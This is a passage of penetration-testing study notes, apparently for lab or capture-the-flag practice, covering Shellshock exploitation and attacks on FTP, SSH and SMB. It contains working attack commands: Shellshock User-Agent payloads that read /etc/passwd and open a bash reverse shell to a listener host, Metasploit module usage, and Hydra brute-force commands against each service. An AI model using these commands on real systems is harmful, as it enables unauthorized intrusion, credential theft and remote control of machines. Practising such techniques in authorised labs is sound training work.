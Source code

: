  4. Open burp, capture page(or script) and send to repeater, change the user-agent header: `(){ :; }; echo; echo; /bin/bash -c 'cat /etc/passwd/` and send
 5. *Reverse shell:* set up netcat listner: `nc -nvlp 1234`
 6. In Burp Suite change User-Agent to:  `(){ :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/10.10.x.x/1234 0>&1` then hit send.
  ![alt text](/assets/shellshock.png)
**MSF Shellshock Exploit**
1. start: `service postgresql start && msfconsole`
2. search: `search shellshock` look for: `exploit/multi/http/apache_mod_cgi_bash_env_exec` use 5 maybe?
3. set options: RHOSTS, set TARGETURI `/gettime.cgi` <--- this is the exploitable cgi script
4. run

### Exploiting FTP
- FTP port 21, file sharing
- Can be anonymous access
- can be a brute force attack
1. After FTP found: try anonymous `ftp 10.10.x.x` 
2. If not 1. : find namp scripts `ls -la /usr/share/nmap/scripts/ | grep ftp-* `
3. Hydra bruteforce: `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.10.x.x -t 4 ftp`
4. login: `ftp 10.10.x.x` --> fill in username and password --> to download / show file `get secret.txt`

### Exploiting SSH
- TCP port 22
1. Brute force attack: `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 10.10.x.x -t 4 ssh`
2. login: `ssh sysadmin@10.10.x.x`

### Exploiting SAMBA
- port 445, maybe 139
- brute force, SMBmap to enumerate, SMBclient also
1. `nmap -sV 10.10.x.x`
2.  Brute-force: DEMO command:`hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.10.x.x -t 4 smb`
3.  SMBMAP: `smbmap -H 10.10.x.x -u username -p password`
4.  SMBCLIENT share access: `smbclient //10.10.x.x/sharename  -U username` <-- need passwords optained for this
5.  in smb: `dir` etc, `get file.tar.gz` <-- after on linux`tar xzf file.tar.gz`
6.  flag in nancy, admin. 
7.  
**Enum4linux**
1. `enum4linux -a 10.10.x.x`
2. using after bruteforce: `enum4linux -a -u username -p password 10.10.x.x`
   